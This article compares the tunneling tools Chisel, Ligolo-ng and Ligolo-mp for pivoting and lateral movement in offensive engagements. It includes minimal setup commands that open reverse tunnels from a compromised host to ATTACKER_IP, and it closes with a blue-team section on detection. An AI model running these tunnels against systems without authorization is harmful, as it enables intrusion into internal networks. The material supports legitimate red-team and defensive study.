

## TL;DR

- Want **one stable tunnel fast**? → `Chisel`
- Want to **roam the internal network naturally**? → `Ligolo-ng`
- Managing **multiple agents across multiple segments**? → `Ligolo-mp`

In 2026 real-world ops, the most reproducible pattern is: **Chisel for initial foothold → Ligolo-ng for lateral movement → Ligolo-mp for complex multi-site engagements**.

---

## A Note on "Latest"

When this article says "current", it refers to **operational patterns in wide use as of 2026** — both on the offense and defense side. Version numbers change quickly, so verify release notes before deploying any tool.

---

## Tool Roles at a Glance

| Tool | Primary Role | Transport | Typical Use Case |
|---|---|---|---|
| Chisel | Port forwarding / SOCKS | HTTP(S) over WebSocket | First foothold, one-shot forwarding |
| Ligolo-ng | Transparent L3/L4 pivot | TUN-based tunnel | Routing nmap/SMB/RDP/WinRM naturally |
| Ligolo-mp | Multi-agent orchestration layer | Multi-agent routing | Simultaneous multi-segment exploitation |

---

## Chisel — Lightweight "Just Get Through" Tool

### Strengths

- Single binary, trivial to deploy
- `R:socks` turns it into a SOCKS proxy instantly
- Blends into HTTP/HTTPS traffic; easy to establish initial comms

### Weaknesses

- Route management gets messy at scale or with multi-hop setups
- Each additional proxy chain increases latency and failure points

### Minimal Setup

```bash
# Attacker
chisel server -p 9001 --reverse

# Compromised host
./chisel client ATTACKER_IP:9001 R:socks
```

Connect your `proxychains` config or Burp's upstream SOCKS to pivot into the internal network from there.

---

## Ligolo-ng — Treat the Internal Network Like Local

### Strengths

- TUN interface means no per-app SOCKS configuration needed
- Scanning and enumeration feel natural (routing handles it)
- Easy to expand across multiple subnets

### Weaknesses

- Initial setup (TUN creation, route adds) has a small learning curve
- Incorrect network design leads to route conflicts

### Minimal Setup

```bash
# Attacker (proxy)
./proxy -selfcert

# Compromised host (agent)
./agent -connect ATTACKER_IP:11601 -ignore-cert
```

After connection: create a TUN interface on the attacker side and add routes pointing internal subnets toward Ligolo.

---

## Ligolo-mp — Orchestration for Complex Engagements

`Ligolo-mp` extends Ligolo-ng beyond single-connection use. It manages **multi-hop pivots, multiple agents, and route switching** across a complex network environment.

### When to Use It

- Agents are running on hosts A, B, and C simultaneously
- Reachability differs per segment and routes need frequent switching
- Multiple operators need shared session state

### Watch Out For

- More moving parts — design your routing and permissions in advance
- Complexity without planning can create more confusion than it solves

---

## Mermaid Sequence: Initial Foothold → Multi-Hop Pivot



---

## Operational Decision Flow

1. **First tunnel is unstable** → Use Chisel to establish comms first
2. **Internal recon is ramping up** → Migrate to Ligolo-ng
3. **Running multiple concurrent routes** → Add Ligolo-mp

Trying to "start with everything Ligolo" from day one tends to fail. **Phased migration** is more reliable.

---

## Detection & Defense (Blue Team)

### Network

- Watch for long-lived outbound TLS/HTTP sessions
- Detect periodic beaconing to unusual destinations
- Hosts that start behaving like routers (increased internal-to-internal traffic)

### Host

- Suspicious binaries executing (`chisel` / `agent` / renamed equivalents)
- New services, scheduled tasks, or auto-run entries
- New TUN/TAP adapters, route additions, firewall exceptions

### Operational Controls

- Build behavioral detection rules in your EDR for tunneling tool patterns
- Restrict outbound egress to approved destinations (whitelist proxy/firewall)
- Tighten inter-segment ACLs to make lateral movement and pivoting harder

---

## Summary

- `Chisel` — highest **initial breakthrough capability**
- `Ligolo-ng` — highest **internal operational efficiency**
- `Ligolo-mp` — strongest for **sustained complex environments**

In real operations, the payoff comes not from picking the "best" tool but from **knowing when to switch and designing the transition ahead of time**.

---

## References

- Chisel (official repository)
- Ligolo-ng (official repository)
- Ligolo-mp (verify source and maintenance status before use)
